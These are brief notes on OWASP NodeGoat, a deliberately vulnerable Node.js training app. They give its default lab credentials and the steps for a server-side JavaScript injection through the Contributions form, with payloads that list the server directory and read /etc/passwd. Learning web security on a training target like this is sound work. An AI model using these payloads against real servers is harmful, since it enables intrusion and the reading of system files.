 # NodeGoat
A vulnerable web server to learn webapp hacking.

https://github.com/OWASP/NodeGoat
https://wiki.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project

Tutorial
https://nodegoat.herokuapp.com/tutorial

Users
* Admin Account - u:admin p:Admin_123
* User Accounts (u:user1 p:User1_123), (u:user2 p:User2_123)
* New users can also be added using the sign-up page.


Injection attack
* Log in as
* Go to Contributions tab
* In the Employee Pre-Tax field, enter “res.end(require('fs').readdirSync('.').toString())” (without quotes)


res.end(require('fs').readdirSync('.').toString())

res.end(require('fs').readFileSync(‘/etc/passwd’))
